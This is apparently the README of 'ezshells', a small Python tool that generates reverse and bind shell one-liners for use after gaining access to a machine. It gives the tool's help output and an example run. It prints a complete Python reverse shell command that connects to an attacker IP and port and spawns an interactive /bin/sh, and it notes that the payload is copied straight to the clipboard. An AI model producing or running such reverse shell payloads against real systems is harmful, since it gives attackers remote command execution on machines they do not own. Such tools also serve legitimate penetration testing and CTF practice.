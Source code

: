 # ezshells

## What is ezshells

ezshells is just a quick Python tool I wrote, because I'm a lazy bugger. I wanted a way to quickly generate my reverse shells when I gain access to a box.


## Usage example

It's still pretty simple, but here is the help message and a usage example:

```
python3 ezshell.py -h
usage: ezshell.py [-h] -i ATTACKERIP -p PORT -l LANGUAGE [-s SHELLTYPE]

Easy copy-pasta my shells.

optional arguments:
  -h, --help            show this help message and exit
  -i ATTACKERIP, --localIP ATTACKERIP
                        Your box's IP.
  -p PORT, --port PORT  Port to connect to.
  -l LANGUAGE, --language LANGUAGE
                        Language to create shell.
  -s SHELLTYPE, --shelltype SHELLTYPE
                        Reverse or Bind shell.

```


Let's say the machine you're on has Python installed. You want to set up a Python reverse shell on your machine at 10.0.14.32 and have a listener set up on 3333. You'd run the following:

```
python3 ezshell.py -i 10.0.14.32 -p 3333 -l python
```

You will get the following output:

```
[+] Python Reverse shell:
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.14.32",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

In order to further simplify it, I added a functionality that automatically attaches it to your clipboard. This minimizes the need to highlight and copy/paste. Less room for error, too. That said, you will need to install pyperclip to ensure it works.
